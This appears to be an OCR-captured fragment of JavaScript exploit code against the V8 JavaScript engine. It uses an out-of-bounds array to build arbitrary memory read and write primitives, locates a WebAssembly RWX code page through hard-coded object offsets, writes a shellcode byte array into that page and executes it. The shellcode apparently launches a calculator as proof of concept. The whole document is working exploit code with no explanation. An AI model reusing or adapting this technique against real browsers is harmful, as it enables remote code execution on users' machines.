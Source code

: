 ```javascript

//------ find backing_store
var data_view = new DataView(data_buf);
var array_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(oob_array[i]) == 0x233){
		array_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(oob_array[array_buffer_idx])));
		break;
	}
}

//----- arbitrary read
function dataview_read64(addr)
{
	oob_array[array_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	oob_array[array_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

//----- get wasm_code by AAR

var wasm_function_addr = f2i(oob_array[wasm_obj_idx]);
console.log("[+] wasm_function_addr: 0x"+hex(wasm_function_addr));

var wasm_shared_info = dataview_read64(wasm_function_addr -1 + 0x18);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_data = dataview_read64(wasm_shared_info -1 + 0x8);
console.log("[+] find wasm_data : 0x" + hex(wasm_data));

var wasm_instance = dataview_read64(wasm_data -1 + 0x10);
console.log("[+] find wasm_instance : 0x" + hex(wasm_instance));

var wasm_rwx = dataview_read64(wasm_instance - 1 + 0xe8);
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));


//write shellcode to wasm
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```
